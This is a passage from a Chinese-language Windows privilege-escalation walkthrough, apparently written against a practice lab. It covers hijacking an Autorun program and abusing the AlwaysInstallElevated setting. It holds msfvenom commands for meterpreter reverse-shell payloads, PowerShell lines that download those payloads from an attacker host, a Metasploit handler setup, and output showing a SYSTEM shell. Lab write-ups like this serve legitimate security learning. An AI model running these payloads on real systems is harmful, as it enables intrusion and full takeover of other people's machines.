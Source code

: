 用msfvenom编译同名Autorun文件：

> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.13.21.169 lport=4444 -f exe -o program.exe


从靶机下载文件program.exe
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/program.exe','C:\Program Files\Autorun Program\program.exe')"

等待用户登录，触发反弹shell。


# 2.注册表提权-AlwaysInstallElevated (Registry Escalation - AlwaysInstallElevated)

## 前提
如果注册表里查询到这两个属性的值都是 0x1，那么任何用户都拥有以``` NT AUTHORITY\SYSTEM```身份运行或者安装```*.msi```文件的权限
>  reg query HKLM\Software\Policies\Microsoft\Windows\Installer

>  reg query HKCU\Software\Policies \Microsoft\Windows\Installer

## 思路
用msfvenom生成一个```*.msi```文件，在靶机里执行这个文件，就可以提权到```NT AUTHORITY\SYSTEM```

## 怎么利用?

### 攻击机：
监听
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run

6. 生成反弹的.msi文件
> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.13.21.169 lport=4444 -f msi -o setup.msi

### 靶机：
7. 从靶机下载文件
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/setup.msi','C:\temp\setup.msi')"

8. 执行```setup.msi```文件

攻击机收到反弹shell，拿到最高权限
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.13.21.169:4444 
[*] Sending stage (175174 bytes) to 10.10.86.123
[*] Meterpreter session 2 opened (10.13.21.169:4444 -> 10.10.86.123:49329) at 2021-11-15 09:22:26 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
